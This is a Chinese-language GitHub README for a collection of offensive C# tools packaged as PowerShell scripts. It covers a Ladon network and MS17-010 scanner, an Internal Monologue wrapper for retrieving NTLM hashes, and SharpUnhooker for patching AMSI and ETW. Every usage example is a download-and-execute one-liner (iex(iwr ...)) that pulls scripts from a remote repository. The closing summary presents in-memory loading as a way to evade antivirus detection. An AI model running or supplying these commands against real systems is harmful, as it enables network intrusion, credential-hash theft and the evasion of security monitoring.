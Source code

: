 



## 前言：
windows平台上许多攻击性武器都是由C#编写的，并且可以轻松地转为powershell脚本，我将这个仓库作为一个集合，用来储存OffensiveCsharp的powershell代码
# 1.Invoke-Ladon
之前使用Ladon的Powershell版本的时候似乎不能把扫描内容输出到txt文本中，因此我对它做了一点小小的修改。

使用Gzip-compress 和 base64-Encode 转换Ladon的二进制文件然后base64编码解码 并通过[System.Reflection.Assembly]::Load($DecompressedDecodedBinary)在powershell中加载Ladon的二进制文件
## 使用方法：

注意参数中需要加双引号



#### 1.扫描在线主机

```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/INotGreen/Invoke-Ladon/main/Invoke-Ladon.ps1);
invoke-ladon "192.168.1.8/24 OnlinePC" > OnlinePC.txt
```
![image](https://user-images.githubusercontent.com/89376703/197330353-73fb556c-b59b-43e9-a3ac-bc3e28d15644.png)




#### 2.扫描漏洞MS17017



```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/INotGreen/Invoke-Ladon/main/Invoke-Ladon.ps1);
invoke-ladon "192.168.1.8/24 MS17010" > MS17010.txt
```
![image](https://user-images.githubusercontent.com/89376703/197330367-387b676a-6a4c-4ea9-951d-56aac29229e4.png)




具体使用方法请参考：https://github.com/k8gege/Ladon

或者直接把调用命令放在脚本最后一行

![image](https://user-images.githubusercontent.com/89376703/197330378-fff9e947-3c5e-47b8-b4ae-02576fdee671.png)
# 2.Invoke-Internalmonologue

Internalmonologue

Internalmonologue：在不接触 LSASS 的情况下检索 NTLM 哈希:https://github.com/eladshamir/Internal-Monologue

用法：
```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/INotGreen/Invoke-SharpOffensive/main/Invoke-Internalmonologue.ps1)
```

# 2.Invoke-SharpUnhook.ps1
SharpUnhook用来规避AMSI的内存检测、ETW的监控和hook了ring3的API，或许它仍然会被高级防病毒检测，
这只是一个例子，不要依赖它:https://github.com/GetRektBoy724/SharpUnhooker

用法：
远程加载
```
iex(iwr -UseBasicParsing https://raw.githubusercontent.com/INotGreen/Invoke-SharpOffensive/main/Invoke-SharpUnhook.ps1)
```
本地加载

```
Import-Module .\Invoke-SharpUnhook.ps1
```
![image](https://user-images.githubusercontent.com/89376703/200115967-953b394b-90ad-477c-b12c-7370c73fe667.png)
这样AMSI和ETW就已经Ptach了


### 总结

使用某些方法可以封装powershell的脚本，让powershell在内存中运行，以此规避一些防病毒软件的查杀，这样就防止从Ladon的源码进行免杀处理的操作,对于powershell的免杀，有时候还要考虑规避AMSI的问题。
